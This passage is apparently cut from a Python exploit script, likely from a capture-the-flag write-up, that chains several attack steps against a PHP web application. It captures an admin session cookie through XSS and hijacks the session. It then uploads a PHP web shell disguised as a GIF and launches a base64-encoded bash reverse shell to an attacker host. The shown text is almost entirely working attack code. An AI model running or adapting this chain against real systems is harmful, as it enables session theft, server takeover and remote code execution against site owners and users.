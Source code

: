 ```py
    s.listen()
    
    global admin_cookie
    print("[+] Waiting for admin to trigger XSS !!! [+]")
    (sock_c, ip_c) = s.accept()
    get_request = sock_c.recv(4096)
    admin_cookie = get_request.split(b" HTTP")[0][5:].decode("UTF-8")
    print("[+] The Admin Token is: " + admin_cookie + " !! [+]")
    admin_cookie = admin_cookie.split("=")[1]
    
# Setting the admin token to the session
def changeCookies(rhost,admin_cookie):
    print("[+] Let's Become Admin !! [+]")
    r.cookies['PHPSESSID'] = admin_cookie
    print("[+] Cookie Changed !! [+]")

# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    print("[+] Let's upload the php !! [+]")
    url = "http://%s/admin/upload_image.php" %rhost
    data = 'GIF98a;<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'title' : (None," "),
        'image': ('0x4rt3mis.phar', data, "image/gif")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies, cookies=r.cookies)
    print("[+] Done !!! [+]")

# Get reeeeeverserereerre shelllll
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/images/0x4rt3mis.phar?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    parser.add_argument('-li', '--localhost', help='Local Host', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    lhost = args.localhost
    lport = args.localport
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Set up the web python server
    webServer()
```